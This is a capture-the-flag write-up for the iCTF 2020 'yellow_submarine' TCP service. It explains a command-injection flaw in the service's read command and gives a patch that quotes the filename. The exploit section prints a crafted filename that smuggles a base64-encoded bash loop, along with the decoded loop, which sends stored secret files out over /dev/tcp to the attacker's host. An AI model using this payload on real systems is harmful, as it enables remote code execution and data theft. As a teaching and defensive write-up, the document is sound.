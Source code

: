 # yellow_submarine

## Description

yellow_submarine is a simple text-based TCP service on port 10002 written in Python 2.

It provides a simple command shell and provides four commands:

1. `keygen`
2. `store`
3. `read`
4. `exit`

The connection stays open for 60 seconds and terminates after a timeout.

The service first requires to generate an RSA key pair. This is done via the `keygen` command, which requires solving a Proof of Work (PoW).

The generated key will be stored in a file named `signer_[UUID].key`, where `[UUID]` is a random UUID. This key will be used to sign output from the `store` function so that it cannot be forged.

After the `keygen` command, the `store` command be used. It reads a string that will become the filename and a string in base64 which will be stored encrypted with AES in file with the previously chosen filename with the prefix `data_`. The AES encryption key will be stored along with this file with the same name and the additional suffix `.key`. Finally, a token is printed, which includes the key ID from the `keygen` command, the **shell command (!)** to retrieve the contents of the encrypted file via the UNIX command `cat`, the RSA signature for this string, another **shell command (!)** to retrieve the contents of the according key file via cat and finally another RSA signature for the previous string.

The string from the `store` command can then be used with the `read` command to read the previously entered secret (in base64). This command reads in the parts of the token, takes the RSA key and verifies the signatures for the **shell commands (!)**

The game server regularly stores flags via these commands.


### Proof of Work (PoW)

The PoW consists of a challenge and a prefix. The first four characters of the SHA256 hash of the prefix together with an unknown value need to match the value of the challenge.

See the function `pow()` in the exploit code for a possible solution.


### Demo

![Normal usage of yellow_submarine service in a shell via netcat](/2020.03%20UCSB%20iCTF/yellow_submarine/yellow_submarine.gif)


### Code

For the source code of the service see [main.py](/2020.03%20UCSB%20iCTF/yellow_submarine/main.py).


## Exploit

The bold written words in the description (**shell commands (!)**) were a slight hint for the possible exploitation of this service.

The problem is that instead of reading the file contents via `file.read()`, a UNIX shell command (`cat`) is called via `os.popen()`. This is not really a problem, but it becomes an issue where the user input (the filename) is combined with this command without proper escaping/sanitization. This enables remote code execution (RCE) by providing a specifically crafted filename in the `store` command of the service. This command will then be executed when the token is used in with the `read` command.

The following exploit provides a simple TCP server on a random port that acts as the target for the files which will be sent by the injected shell command. The string for a filename with an exploit basically looks like this:

```
58629;echo Zm9yIGYgaW4gJChscyAtMSB8IGdyZXAgLUUgJ15kYXRhX1thLXowLTktXXszNn0oXC5rZXkpPyQnKTsgZG8gZWNobyAiJGYiID4mIC9kZXYvdGNwLzE5Mi4xNjguMC4yLzUzMzExIDA+JjE7IGNhdCAiJGYiID4mIC9kZXYvdGNwLzE5Mi4xNjguMC4yLzUzMzExIDA+JjE7IGRvbmU=|base64 -d|bash
```

The first number is a random number to make sure that the file does not exist (probably not needed, but does not hurt). The rest of the command is converted to base64 and converted back to prevent problems with slashes as these will be interpreted as a path (actually base32 would probably be smarter for that).

The base64 encoded string looks like this:

```
for f in $(ls -1 | grep -E '^data_[a-z0-9-]{36}(\.key)?$'); do echo "$f" >& /dev/tcp/192.168.0.2/53311 0>&1; cat "$f" >& /dev/tcp/192.168.0.2/53311 0>&1; done
```

It searches for files (secrets and their keys) that match a certain pattern (the game server apparently chooses this pattern for filenames) and redirects its contents to a TCP socket (bash feature) for the server created by the exploit. The filename is also included so they can be assembled properly (maybe using `tar` would be smarter).

The rest of the exploit reads the received files and tries to decrypt them. If the output matches the flag pattern, it is returned on stdout.


### Code

Requirements:

- Python 3 (tested with 3.7.6)
- [PyCryptodome](https://www.pycryptodome.org/) (`pip3 install pycryptodome`)

See [exploit.py](/2020.03%20UCSB%20iCTF/yellow_submarine/exploit.py).

Note: The target for the reverse shell (`REVERSE_SHELL_TARGET`) needs to be the hostname/IP of the host running the exploit.


## Fix

Escape shell command in `read` command, e.g. via [`pipes.quote()`](https://docs.python.org/2/library/pipes.html). Note: The service is written in Python 2, therefore the `shlex` library is not available.

### Patch

```diff
--- main.py.bak 2020-03-06 21:58:02.529359486 +0000
+++ main.py     2020-03-06 21:58:20.985470271 +0000
@@ -9,6 +9,7 @@
 import os
 import random
 import hashlib
+import pipes
 
 banner = '''
  __ __     _ _              _____     _                 _         
@@ -90,10 +91,10 @@
         key_id, cmd_f, cmd_kf, sig_f, sig_kf = token.split('|')
         with open('signer_%s.key' % key_id) as f: key = RSA.importKey(f.read())
         if not verify(key, cmd_f, sig_f) or not verify(key, cmd_kf, sig_kf): raise Exception('Invalid signature')
-        cmd_f = base64.b64decode(cmd_f)
-        cmd_kf = base64.b64decode(cmd_kf)
-        with os.popen(cmd_f) as f: ciphertext = f.read()
-        with os.popen(cmd_kf) as f: data_key = f.read()
+        cmd_f = base64.b64decode(cmd_f).split(' ', 1)
+        cmd_kf = base64.b64decode(cmd_kf).split(' ', 1)
+        with os.popen('cat ' + pipes.quote(cmd_f[1])) as f: ciphertext = f.read()
+        with os.popen('cat ' + pipes.quote(cmd_kf[1])) as f: data_key = f.read()
         cipher = AES.new(data_key, AES.MODE_CBC, '\x00' * 16)
         plaintext = cipher.decrypt(ciphertext)
         print('Hey. This is your secret:')
```
